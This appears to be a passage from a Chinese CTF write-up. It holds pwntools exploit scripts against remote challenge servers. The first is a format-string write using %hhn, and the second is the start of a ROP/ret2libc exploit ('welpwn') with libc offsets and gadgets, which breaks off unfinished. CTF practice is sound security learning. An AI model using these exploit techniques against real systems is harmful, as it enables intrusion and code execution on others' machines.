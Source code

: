 ```py
from pwn import *
context(os='linux',arch='amd64')
p = remote("220.249.52.133", 35866)

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(12,4,0x0804a048,0x02223322)

p.sendline(payload)
p.interactive()
```
https://www.dazhuanlan.com/2019/11/07/5dc3d67635dfe/

用ctfwiki提供的脚本比较快，自己试挺麻烦的...（还是不太熟练




## welpwn

```py
from pwn import *
context.log_level = 'debug'
context(os='linux',arch='amd64')
#p = process("./8")
p = remote("220.249.52.133", 32410)
elf = ELF("./8")

write_got = elf.got['write']
puts_plt = elf.plt['puts']


#libc6_2.23-0ubuntu10_amd64
sys_off = 0x045390
write_off = 0x0f72b0
binsh_off = 0x18cd57

pop = 0x40089c
pop_rdi = 0x04008a3

p.recv()

```